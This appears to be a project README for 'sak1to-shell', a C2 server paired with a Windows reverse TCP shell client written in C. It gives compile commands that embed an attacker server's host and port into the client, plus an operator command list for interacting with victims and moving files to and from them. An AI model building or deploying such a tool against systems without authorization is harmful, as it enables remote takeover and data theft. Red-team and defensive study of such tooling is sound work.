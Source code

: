 # sak1to-shell
Multi-threaded, multi-os/platform (Linux/Windows) c2 server and Windows reverse TCP shell client both written in C.


Compiling reverse TCP shell client with i686-w64-mingw32-gcc:
```
i686-w64-mingw32-gcc sakito_revshell.c lib/windows/sakito_win_core.c -o sakito_revshell.exe -s -ffunction-sections -fdata-sections -fno-exceptions -fmerge-all-constants -static-libgcc -lws2_32 -D PORT=<port_number> -D HOST=\"<server_ipv4_address>\"
```

Compiling reverse TCP shell with cl.exe within Developer command prompt:
```
cl.exe sakito_revshell.c lib/windows/sakito_win_core.c /D PORT=<port_number> /D HOST=\"<server_ipv4_address>\"
```

Compiling Linux server with GCC:
```
gcc -pthread sakito_server.c lib/sakito_server_tools.c lib/linux/sakito_slin_utils.c -o sakito_server -D PORT=<port_number>
```

Compiling Windows server with cl.exe within Developer command prompt:
```
cl.exe sakito_server.c lib/windows/sakito_win_core.c lib/sakito_server_tools.c lib/windows/sakito_swin_utils.c /D PORT=<port_number>
```


Command list:

- list: list available connections.

- interact [id]: interact with client.

- download [filename]: download a file from the client's filesystem to the server's filesystem.

- upload [filename]: upload a file from the server's filesystem to the client's filesystem.

- background: background client.

- exit: terminate client or host.

- cd [dir]: change directory on client or host.

![alt text](https://www.wallpaperbetter.com/wallpaper/156/434/483/cherry-blossom-flowers-painting-pink-1080P-wallpaper-middle-size.jpg)

